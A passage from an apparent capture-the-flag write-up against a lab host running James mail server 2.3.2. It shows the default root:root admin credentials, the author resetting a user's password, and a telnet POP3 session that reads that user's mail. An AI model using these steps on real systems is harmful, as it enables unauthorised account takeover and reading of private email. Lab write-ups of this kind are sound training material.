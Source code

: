 I tried but it didn’t work. I think it needs somebody to log into the ssh. So, I tried to find other ways.

The default credentials are root:root

![Untitled](uploads/Untitled%202.png)

I could also change the password for other user. Now I could access this user from port 110

```bash
╭╴root @ …/c/Users/SiliconBits took 59s
╰─ telnet  10.129.75.67 110
Trying 10.129.75.67...
Connected to 10.129.75.67.
Escape character is '^]'.
USER mindy
PASS mindy+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready
+OK

+OK Welcome mindy
list
+OK 2 1945
1 1109
2 836
.
retr 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <5420213.0.1503422039826.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
```